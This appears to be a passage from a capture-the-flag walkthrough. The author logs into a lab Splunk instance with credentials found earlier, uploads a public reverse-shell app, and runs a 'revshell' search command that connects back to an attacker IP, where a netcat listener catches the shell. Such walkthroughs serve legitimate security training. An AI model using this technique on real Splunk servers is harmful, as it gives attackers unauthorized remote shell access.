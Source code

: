 ```
http://192.168.1.101:8000
```

![](https://i0.wp.com/1.bp.blogspot.com/-dPHS6QjQzUQ/Xbsic_XzqEI/AAAAAAAAhL8/34tbcZUtF08PvVxMukYpyPVwK5cmJXABwCLcBGAsYHQ/s1600/27.png?w=687&ssl=1)

The information we got earlier from the previous screenshot is in fact login credentials. The username is “agent” and the password are “avengers”, we enter these and are able to get into the Splunk account.

We looked around for a while and then decided to upload a shell to the account. On searching, we found a way to weaponize Splunk with reverse and bind shell from this [link](https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz).

![](https://i1.wp.com/1.bp.blogspot.com/-R5d0GcM58Qg/Xbsic63xPdI/AAAAAAAAhL4/0NyVb6ae1AY5IIC56qDl5rsU8OWBWZjjwCLcBGAsYHQ/s1600/28.png?w=687&ssl=1)

The .gz file from the link was saved on our system, we navigate to the “App: Search & Reporting” option and click on “Manage Apps”.

![](https://i0.wp.com/1.bp.blogspot.com/-axRFoSTFTYM/XbsidNwFJII/AAAAAAAAhMA/xDU2oIKVRDczcwtPCzXXJE6o49k1A8E_ACLcBGAsYHQ/s1600/29.png?w=687&ssl=1)

Click on the “Upload app” option. Using the browse option, we find our shell, select it and upload it.

![](https://i2.wp.com/1.bp.blogspot.com/-cTkzFO5bRh4/XbsiepNXGwI/AAAAAAAAhMI/f99O_xRPW84QxQhDwcQdYAAXyIQAtjGTACLcBGAsYHQ/s1600/30.png?w=687&ssl=1)

Click on the “Restart Now” to restart the application.

We scroll down to find our shell file as shown below. Before we can run, it we need to click on the “Permissions” option to change its permissions.

![](https://i0.wp.com/1.bp.blogspot.com/-TY4oqBrlvus/Xbsie4ZkbRI/AAAAAAAAhMM/v1KDAgP-Z4EZtW0Q_tfeaiCF1XTxwvWzQCLcBGAsYHQ/s1600/31.png?w=687&ssl=1)

Configuration files need to be added in order to run the shell successfully, here we set permission to everyone and at the bottom, we click on the “All apps” radio button and save this change.

![](https://i1.wp.com/1.bp.blogspot.com/-REeCWodQ9GE/XbsifHvinvI/AAAAAAAAhMQ/AZrDoiIYT-ke9POOsnVh0nBzj_JuLWKvQCLcBGAsYHQ/s1600/32.png?w=687&ssl=1)

Now to execute the shell. We navigate to the search option in Splunk and type in our command defining that we want a reverse shell of standard type to talk to out attach machines IP on the listening port.

```
| revshell std 192.168.1.107 1234
```

![](https://i0.wp.com/1.bp.blogspot.com/-wJC5Gu9SDyc/Xbsif1ixDgI/AAAAAAAAhMU/WD0eRxdStakxi6xwKi5kuB1aQTpi2OYcgCLcBGAsYHQ/s1600/33.png?w=687&ssl=1)

Netcat is running on our machine listening on port 1234 and see shell talking back.

```
nc -lvp 1234
```

![](https://i1.wp.com/1.bp.blogspot.com/-OedLdoYCkT4/XbsigRu8EJI/AAAAAAAAhMY/jx8YKkq4RT0V1QxcwUG5q6mZLYPyZsiOwCLcBGAsYHQ/s1600/34.png?w=687&ssl=1)
